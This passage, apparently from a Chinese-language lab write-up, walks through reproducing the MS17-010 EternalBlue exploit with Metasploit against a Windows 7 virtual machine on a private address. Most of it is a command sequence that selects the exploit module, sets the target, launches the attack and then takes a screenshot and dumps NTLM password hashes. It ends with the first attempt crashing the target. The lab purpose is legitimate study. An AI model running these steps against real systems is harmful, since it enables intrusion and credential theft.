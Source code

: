 #### 复现过程
配置完环境后，就可以开始测试了，需要用到的命令：  
```bash
#进入msf
msfconsole
#使用search命令查找相关漏洞
search ms17
#进入漏洞利用模块
use exploit/windows/smb/ms17_010_eternalblue
#查看模块参数
show options
#配置相关参数
set rhost 192.168.137.132
#攻击
exploit/run
#测试命令，查看IP，获取截屏，获取系统所有用户名和密码的哈希值（NTLM）
ipconfig
screenshot
hashdump
```  
注意：若不关闭win7的防火墙，外部的主机kali便无法与之通信，更无法完成攻击。
* 关闭防火墙后第一次攻击，攻击到一半，显示成功，但远程主机win7为保护系统安全，自动关机，第一次攻击以失败告终：  
![kali_firstattack](./img/kali_first_attack.jpg)  

